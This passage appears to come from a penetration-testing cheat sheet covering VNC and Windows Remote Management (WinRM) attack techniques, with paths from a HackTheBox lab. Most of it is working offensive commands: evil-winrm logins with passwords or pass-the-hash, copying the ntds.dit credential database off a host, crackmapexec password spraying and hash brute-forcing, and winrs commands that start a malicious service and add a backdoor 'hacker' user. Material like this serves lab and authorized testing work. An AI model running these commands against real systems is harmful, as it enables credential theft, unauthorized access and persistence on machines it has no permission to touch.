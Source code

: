 ```bash
port 5901

vncviewer localhost:5901
```

## 5985/5984-WinRM
+ Windows Remote Management (WinRM) is a Microsoft protocol that allows remote management of Windows machines over HTTP(S) using SOAP. On the backend it's utilising WMI, so you can think of it as an HTTP based API for WMI.
+ password/hashes to login
+ evil-winrm, [evil-winrm git](https://github.com/Hackplayers/evil-winrm)

```bash
# evil-winrm install 
gem install evil-winrm

# menu, check menu command.
menu

# common command.
## enable with powershell on attacker windows machine
Enable-PSRemoting -Force
upload
download
Bypass-4MSI

# usage
## connect with password
evil-winrm -u Administrator -p 'EverybodyWantsToWorkAtP.O.O.'  -i <IP>/<Domain>

## pass the hash
evil-winrm -u <username> -H <Hash> -i <IP>

## download and upload file
## Relative paths are not allowed to use on download/upload. Use filenames on current directory or absolute path
upload local_filename
upload local_filename destination_filename
download remote_filename 
download remote_filename destination_filename

download c:\temp\ntds\ntds.dit /home/kali/lab/htb/blackfield/ntds.dit
upload /home/kali/lab/htb/blackfield/Copy-VSS.ps1 c:\temp\copy.ps1

# crackmapexec, password sparay, pass the hash, user bruteforce
crackmapexec winrm <IP> -d <Domain Name> -u usernames.txt -p passwords.txt
crackmapexec winrm 192.168.178.175 -u user -H :NTLM-hash -d domain 
crackmapexec winrm 192.168.178.175 -u user.list -H hashes.list 

# with a malicious binary uploaded, run
## Start a malicious service
winrs -r:192.168.1.2 -u:CORP\user -p:password service.exe

## Add a user
winrs -r:192.168.1.2 -u:CORP\user -p:password "cmd.exe /c net user hacker P@ssw0rd /add"
```
